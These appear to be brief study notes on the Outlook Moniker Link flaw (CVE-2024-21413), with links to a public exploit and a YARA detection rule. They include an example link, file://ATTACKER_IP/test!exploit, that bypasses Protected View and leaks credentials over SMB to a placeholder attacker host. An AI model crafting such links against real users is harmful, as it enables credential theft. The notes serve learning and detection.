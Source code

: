 ### Moniker Link
- a type of hyperlink
- https://learn.microsoft.com/en-us/windows/win32/com/url-monikers
- RISK:
  - Adding ! and extra text to a file:// link `(e.g., file://ATTACKER_IP/test!exploit)` bypasses Outlook’s Protected View, allowing access to the link.
  - This exploit uses the SMB protocol, which can expose local credentials to the attacker.
___
### Example Exploit made by CMNatic
- https://github.com/CMNatic/CVE-2024-21413
___
### Detection by Florian Roth
- Yara rule: https://github.com/Neo23x0/signature-base/blob/master/yara/expl_outlook_cve_2024_21413.yar
- https://x.com/cyb3rops/status/1758792873254744344
